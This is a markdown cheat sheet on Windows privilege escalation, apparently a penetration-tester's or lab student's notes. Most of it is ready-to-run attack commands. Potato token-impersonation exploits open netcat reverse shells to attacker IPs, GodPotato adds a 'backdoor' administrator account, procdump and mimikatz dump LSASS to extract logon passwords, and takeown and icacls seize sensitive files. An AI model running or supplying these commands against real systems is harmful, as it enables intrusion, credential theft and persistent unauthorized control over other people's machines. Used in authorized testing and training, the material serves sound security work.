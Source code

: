 # ✅ Windows Privilege Escalation – User Privileges 

---

## 🎯 Quick Wins
- [ ] `SeImpersonatePrivilege` / `SeAssignPrimaryTokenPrivilege` → Potato exploit (Juicy, PrintSpoofer)
- [ ] `SeDebugPrivilege` → Dump LSASS or SYSTEM shell
- [ ] `SeTakeOwnershipPrivilege` → Take ownership of sensitive files
- [ ] `SeBackupPrivilege / SeRestorePrivilege` → Copy SAM & SYSTEM files
- [ ] `SeLoadDriverPrivilege` → Load malicious driver
- [ ] `SeSecurityPrivilege` → Access security logs

---
## ✅ Enumeration

```powershell
whoami /priv
whoami /all
```

```c
dir C:\ /a /s | findstr /i "temp programdata"
```

## ✅ SeImpersonate / SeAssignPrimary Token

```c
# Check The Windows Version  & if it's 32 bit or 64 bit
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"

#Token Impersonation - PrintSpoofer 
c:\tools\PrintSpoofer.exe -c "c:\Users\chris\tools\nc64.exe ip 21 -e cmd"
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
C:\tools>.\PrintSpoofer.exe -i -c powershell.exe 

# Token Impersonation - JuicyPotato
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\Users\chris\Desktop\tools\nc64.exe 192.168.45.171 22 -e cmd.exe" -t *
C:\temp\JuicyPotato.exe -t * -p C:\Users\Public\Documents\sh3ll.exe -l 443

# Token Impersonation - JuicyPotato - Troubleshooting error 
1 . check THe version of the windows
2 . check this website to search of a CLSID https://ohpe.it/juicy-potato/CLSID/
3 . Exploit : C:\temp\JuicyPotato.exe -t * -p C:\temp\shell.exe -l 443 -c "{6d18ad12-bde3-4393-b311-099c346e6df9}" 
1. if it doesn't work try another CLSID

# GodPotato
GodPotato -cmd "cmd /c dir c:\Users\Administrator"
GodPotato-NET2.exe -cmd "cmd /c type c:\Users\damon\DEsktop\proof.txt"
GodPotato -cmd "C:\Users\Public\reverse.exe"

Sometimes the SeImpersonatePrivilege is not the actual intended path so the Godpotato shell will be broken and you will not be able to execute whoami, no output for mimikatz, etc.

GodPotato -cmd "net user /add backdoor Password123" GodPotato -cmd "net localgroup administrators /add Lance"

# RougePotato Exploit
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe ip 443 -e cmd" -l 9999
# In some old versions you need to use the "-f" param
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe ip 443 -e cmd" -f 9999

# SharpEfsPotato
> SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"

# EfsPotato
> EfsPotato.exe "whoami"

# non of them working try?
> BadPotato.exe
> Multipotatox64.exe
> SharpEfsPotato.exe
> SigmaPotato.exe
> RogueOxidResolver.exe

# Old Windows ?
.\Juicy.Potato.x86.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c c:\users\Public\nc.exe -e cmd.exe 10.10.10.1 8080" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
# Note !!
if it's not working change the '-c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}' 
https://github.com/ohpe/juicy-potato/tree/master/CLSID
```

## ✅ SeDebugPrivilege

```c
Note !! : if you have rdp access i can dump the lsass without using procdump

Step1  : Open Task Manager
Step2  : Open Details Page
Step3  : find lsass.exe and press right click
Step4  : Click in Create dump File
```

```c
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

## ✅ SeTakeOwnershipPrivilege

```c
# Take ownership of file
takeown /f "C:\Sensitive\File.txt"

# Grant full control
icacls "C:\Sensitive\File.txt" /grant user:F

# Read file
type "C:\Sensitive\File.txt"
```
---
---
